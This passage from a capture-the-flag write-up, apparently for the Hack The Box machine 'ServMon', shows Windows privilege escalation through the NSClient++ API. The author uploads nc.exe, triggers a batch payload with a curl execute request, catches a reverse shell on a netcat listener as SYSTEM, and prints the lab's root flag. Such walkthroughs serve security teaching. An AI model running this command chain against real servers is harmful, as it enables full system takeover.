100 59392  100 59392    0     0  59392      0  0:00:01 --:--:--  0:00:01  264k

nadine@SERVMON C:\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Temp

21/06/2020  13:12    <DIR>          .
21/06/2020  13:12    <DIR>          ..
21/06/2020  13:12                 0 evil.bat
21/06/2020  14:36            59,392 nc.exe
               2 File(s)         59,392 bytes
               2 Dir(s)  27,866,644,480 bytes free

```

I was not the only to make mistakes while transferring files to this machine.  Another user had tried to upload `nc.exe` \(_I overwrote this_\) and their `evil.bat` to the `C:\Temp` folder but had failed \(_file size of 0 bytes seen above_\).  I figured out that had forgotten to add `--output <file_name>` at first.  Luckily it gave a warning to remind me of this.  

```text
nadine@SERVMON C:\Temp>curl -s -k -u admin https://127.0.0.1:8443/api/v1/queries/evil/commands/execute?time=1m
Enter host password for user 'admin':

{"command":"evil","lines":[{"message":"Command evil didn't terminate within the timeout period 60s","pe
rf":{}}],"result":3}
```

Despite the error message seen above, once I successfully uploaded `nc.exe` to the folder I had specified in my payload `C:\Temp`, and then sent the execute query once again, I received my reverse shell on my host machine.  The error message above I believe is to let an administrator know that there was a long-running script that did not terminate within the specified timeout period.  

### Getting a root shell

```text
zweilos@kalimaa:~$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.10.15.20] from (UNKNOWN) [10.10.10.184] 49698
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeAuditPrivilege                          Generate security audits                                           Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled 

ERROR: Unable to get user claims information.
```

Bam!  Now I was logged in as `nt authority\system` and had full control of the system.

### root.txt

The last thing to do was, of course_,_ to collect my proof.  

```text
C:\Program Files\NSClient++>type C:/Users/Administrator/Desktop/root.txt
type C:/Users/Administrator/Desktop/root.txt
The syntax of the command is incorrect.
```

_Oops. Apparently in a `cmd.exe` shell the direction of the slash is important when using `type` to read a file!_

```text
C:\Program Files\NSClient++>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
3e42dab90f3ab8487973c7769382a639
```

Thanks to [dmw0ng](https://www.hackthebox.eu/home/users/profile/82600) for a fun and interesting challenge!  I certainly learned a few new useful tricks for dealing with Windows machines. 

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

